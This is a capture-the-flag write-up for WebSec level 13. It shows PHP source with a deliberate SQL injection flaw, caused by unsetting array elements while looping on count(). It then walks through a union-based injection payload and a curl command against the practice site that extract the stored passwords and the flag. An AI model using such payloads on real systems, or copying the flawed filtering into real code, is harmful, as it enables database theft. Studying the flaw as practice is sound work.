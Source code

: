 # level 13
## Source codes
```php
<!-- Yet an other fine level, based on a real-world vuln discovered by @caillou -->
<?php

// Defines $flag
include 'flag.php';

$db = new PDO('sqlite::memory:');
$db->exec('CREATE TABLE users (
  user_id   INTEGER PRIMARY KEY,
  user_name TEXT NOT NULL,
  user_privileges INTEGER NOT NULL,
  user_password TEXT NOT NULL
)');

$db->prepare("INSERT INTO users VALUES(0, 'admin', 0, '$flag');")->execute();

for($i=1; $i<25; $i++) {
  $pass = md5(uniqid());
  $user = "user_" . substr(crc32($pass), 0, 2);
  $db->prepare("INSERT INTO users VALUES($i, '$user', 1, '$pass');")->execute();
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Thirteen</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>LevelThirteen <small> - A privilege offer</small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                                            A simple tool to display privileges, so you can check them.
                                            As usual, the source code can be found <a href="source.php">here</a>.
                    </p>
                </div>
            </div>
            <div class="container">
              <div class="row">
                <form class="form-inline" method='get'>
                                    Ids to display
                  <input name='ids' class='form-control' type='text' value='1,2,3'>
                  <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                </form>
              </div>

<?php
if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);

    echo '<br>';
    echo '<div class="well">';
  echo '<ul>';
  while ($row = $stmt->fetch(\PDO::FETCH_ASSOC)) {
        echo "<li>";
        echo "User <em>" . $row['user_name'] . "</em>";
      echo "    with id <code>" . $row['user_id'] . '</code>';
        echo " has <b>" . ($row['user_privileges'] == 0?"all":"no") . "</b> privileges.";
        echo "</li>\n";
  }
    echo "</ul>";
    echo "</div>";
}
?>
            </div>
        </div>
    </body>
</html>

```
## Writeup  
### Vulnerability
Let's think about what happens if I input `-1,))or'1'='1';--`. First, `$tmp` will be an array of `-1` and `))or'1'='1';--` because of explode() function. Second, the process enters to a loop to get rid of non-number or less-than-1 elements from $tmp by unset() function. In first loop process, $i=0 and count($tmp)=2. First element of $tmp is -1 which is less than 1, so this element is deleted from $tmp array. In second loop process, $i=1 and count($tmp)=1, so the loop will end, and `))or'1'='1';--` remains in $tmp even though this is not a numeric string... So, this is the key and vulnerable point in the source code.
### SQL injection  
The goal of this problem is to show the content of `user_password` column defined by CREATE TABLE statement in source.php. However, input length is restricted to 70 characters, so we must write a query which shows the content of user_password column as short as we can.  
This is a Union-based SQLi query to show passwords.  
`0,0,0,))UNION SELECT user_password user_id,1,1 FROM users WHERE 1;--`
    
This is a curl command to show the flag.  
`curl 'http://websec.fr/level13/index.php?ids=0,0,0,))UNION SELECT user_password user_id,1,1 FROM users WHERE 1;--' | grep -oE 'WEBSEC{.+}'`
